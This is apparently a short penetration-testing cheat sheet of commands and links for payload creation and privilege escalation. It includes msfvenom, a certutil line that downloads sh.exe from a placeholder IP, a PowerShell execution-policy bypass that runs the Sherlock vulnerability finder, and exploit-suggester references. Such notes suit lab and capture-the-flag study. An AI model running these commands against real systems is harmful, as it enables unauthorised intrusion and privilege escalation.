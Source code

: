 0._Useful_commands_scripts

0. Useful commands/scripts

- `msfvenom` creates malicious payloads in a variety of formats, see google cheatsheets for usage
- `python -m SimpleHTTPServer 80` serves all the files in your current directory as a web server
- `certutil -urlcache -f http://IP/sh.exe sh.exe` download file from above command on windows
- `linenum.sh` good linux enumeration shell
- `linuxprevchecker.py` another good linux enumeration shell
- `msfconsole`: `use multi/recon/local_exploit_suggester` good enumeration script if you have setup a meterpreter shell
- `rastamouse sherlock` good windows enumeration script
- `powershell.exe -exec bypass -Command "% {Import-Module .\sher.ps1; Find-AllVulns`"
------
- https://github.com/AonCyberLabs/Windows-Exploit-Suggester good windows exploit suggester, use `systeminfo` to get sysinto to feed script.
- Compile C exploit: `gcc FILE.c -o ex.exe`
- https://www.fuzzysecurity.com/tutorials/16.html Good exploits on windows
-------
- No tty? https://netsec.ws/?p=337